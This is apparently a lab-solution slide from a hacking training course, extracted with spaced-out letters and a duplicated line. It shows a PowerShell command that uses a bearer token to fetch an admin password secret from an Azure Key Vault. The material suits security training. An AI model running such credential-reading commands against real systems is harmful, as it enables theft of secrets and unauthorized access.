

G e t - A z K e y Va u l t

$ v t o k e n	=	" e y J 0 e X A …	"
I n v o k e - W e b R e q u e s t	- U r i	h t t p s : / / a l t o t e l -
k e y v a u l t - by - r b a c . v a u l t . a z u r e . n e t / s e c r e t s / v m - a d m i n - p a s s / ? a p i - v e r s i o n = 7 . 3  - M e t h o d	G e t	-
MISSION SOLUTION
H e a d e r s	@ { A u t h o r i z a t i o n = " B e a r e r  $ v t o k e n " }	-
U s e B a s i c P a r s i n g	|	C o n v e r t F r o m - Json
I n v o k e - W e b R e q u e s t	- U r i	h t t p s : / / a l t o t e l -
k e y v a u l t - by - r b a c . v a u l t . a z u r e . n e t / s e c r e t s / v m - a d m i n - p a s s / ? a p i - v e r s i o n = 7 . 3  - M e t h o d	G e t	-
H e a d e r s	@ { A u t h o r i z a t i o n = " B e a r e r  $ v t o k e n " }	- U s e B a s i c P a r s i n g	|	C o n v e r t F r o m - Json
H A C K E R S A C A D E M Y . C O M